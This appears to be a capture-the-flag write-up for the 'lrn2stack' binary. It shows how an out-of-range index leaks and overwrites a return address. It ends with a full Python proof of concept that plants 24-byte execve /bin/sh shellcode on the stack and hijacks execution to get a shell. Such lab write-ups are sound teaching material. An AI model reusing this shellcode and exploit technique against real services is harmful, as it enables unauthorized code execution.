




# lrn2stack

When running the binary, it expects a few options as user input: choice of function, index of storage, and data to be stored (username and password).

The prompt with expected input appears as below:

```
Welcome to the Very Useful Password Manager
Please input an option
1: add credentials
2: print credentials
3: remove credentials
4: exit
-> 1
enter index
-> 0
enter username
-> AAAA
enter password
-> BBBB
Please input an option
1: add credentials
2: print credentials
3: remove credentials
4: exit
-> 2
enter index-> 0
AAAA:BBBB
```

Choosing the option 1: add credentials will prompt the user for an index to write to and then ask the user to input a 32 character username and a 32 character password. Using gdb, it was determined that the username and password would be stored adjacent on the stack.

<!-- trick to center an image -->
<p align="center">  </p>

Choosing the option 2: print credentials will prompt the user for an index to access a username and password and print them in the format "username:password"

<p align="center">  </p>

Effectively, these can be used to write and read data.

By providing some unexpected input to the index of storage, (ascii 0x2e '.') the following data was printed:

```
Please input an option
1: add credentials
2: print credentials
3: remove credentials
4: exit
-> 2
enter index-> .
��:b�
Please input an option
1: add credentials
2: print credentials
3: remove credentials
4: exit
```

Following the same input to the binary in strace, this is shown to be: 

`write(0, "\4\27\342\367:b\207\4\10\n", 10��:b�`

When converted to hex, these values are: 

`\x04\x17\xe2\xf7:\x62\x87\x04\x08\x0a`

On the left side, the 4-byte value starting with \xf7 appears to be a stack address whereas on the right side, the value 0x08048762 appears to be an address in .text, meaning a possible return address.

Examining the instruction at 0x080f8762 was found to be add esp, 0x10 after a call to printf

When testing the write in gdb, got a segmentation fault and overwrite of EIP

<p align="center">  </p>

At this point, a possible course of action is to first write shellcode to the stack using add credentials then use the add credentials option to write to index '.', overwriting the return address to point to the shellcode on the stack.

To find a valid stack address, the binary was hosted on socat and hooked up to gdbserver. Breakpoint was set after printf at 0x08048762 when reading with option 2, then stack was examined. In the image below, the stack address used would be 0xffffce9c pointing to where the user input for username will be stored on the stack at index 0.

<p align="center">  </p>

After checking for security mitigations (no PIE, no NX, ASLR off), the proof of concept for the exploit was developed.

```
#!/usr/bin/python
# lrn2stack.elf
# Executed from root@aws-40:~/Downloads/bsidessactf# socat TCP-LISTEN:2323,reuseaddr,fork EXEC:"./lrn2stack.elf"
# NO PIE, NX OFF, ASLR OFF
# b *0x08048762

import socket
import struct
import telnetlib

TCP_IP = 'localhost'
TCP_PORT = 2323
# stack range - 0xfffdd000 0xffffe000    0x21000        0x0 [stack]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((TCP_IP, TCP_PORT))

print s.recv(1024)
#"Please input an option"
s.send("1\n")

print s.recv(1024)
#"enter index"
# store shellcode at 0xffffcebc
s.send("0\n")

print s.recv(1024)
# shellcode 24 bytes from https://www.exploit-db.com/exploits/42428/
username = "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\n"

s.send(username)

print "SENDING > " + username.encode('hex')
print s.recv(1024)

password = "BBBB\n"
s.send(password)
print s.recv(1024)

print s.recv(1024)

# Now trigger eip overwrite to point to shellcode at 0xffffcebc
s.send("1\n")

print s.recv(1024)
s.send(".\n")

print s.recv(1024)
s.send("AAAA\n")

print s.recv(1024)
password = struct.pack("I", 0xffffce9c) + "\n"
# 0xffffce4c
# 0xffffce9c
# 0xffffceac
s.send(password)

print "Did we get a shell?"

t = telnetlib.Telnet()
t.sock = s
t.interact()
```
